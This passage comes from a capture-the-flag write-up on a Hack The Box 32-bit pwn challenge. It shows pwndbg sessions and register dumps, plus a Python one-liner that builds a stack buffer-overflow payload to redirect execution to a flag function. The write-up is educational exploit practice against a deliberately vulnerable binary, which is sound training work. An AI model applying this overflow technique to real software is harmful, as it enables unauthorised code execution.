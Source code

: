 Breakpoint 1 at 0x8049246

Finally, the malicious string can be run:

pwndbg> r < eip_flag  
Starting program: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag  
You know who are 0xDiablos:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Breakpoint 1, 0x08049246 in flag ()LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0EDX  0xfbad2498EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 'AAAA'  
ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')  
EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef
{% endhighlight %}

As expected, the breakpoint at flag+100 was hit. Looking at ebp+0x8, it can be observed that it was not overwritten:

{% highlight bash %}
pwndbg> x/x $ebp+0x8  
0xffffd024:     0xffffd0f4
{% endhighlight %}

Upon looking at the first 16 bytes of the EBP register, an interesting circumstance can be noticed:

{% highlight bash %}
pwndbg> x/4x $ebp  
0xffffd01c:     0x41414141      0x00000000      0xffffd0f4      0xffffd0fc
{% endhighlight %}

At exactly $ebp, the junk bytes that are present in the malicious string can be seen. Following that is a succession of eight zeroes followed by the value of $ebp+0x8 and $ebp+0xc. This succession of zeroes is particularly interesting as it is not clear what it relates to. Modifying the malicious string by adding four B’s to the end of it and piping it into the program ,reveals an interesting behavior within the binary:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $python -c "print 'A'*188 + 'xe2x91x04x08'+'BBBB'" > eip_flag

pwndbg> r < eip_flag                                                                    
Starting program: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_flag  
You know who are 0xDiablos:                                                            
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBB                          
  
Breakpoint 1, 0x08049246 in flag ()        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA                                      
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0                                  EBX  0x804c000 (_GLOBAL_OFFSET_TABLE_) --▸ 0x804bf10 (_DYNAMIC) ◂-- add    dword ptr [eax], eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */EBP  0xffffd01c ◂-- 'AAAABBBB'             ESP  0xffffcfc4 ◂-- 0x41414141 ('AAAA')    EIP  0x8049246 (flag+100) ◂-- cmp    dword ptr [ebp + 8], 0xdeadbeef
{% endhighlight %}
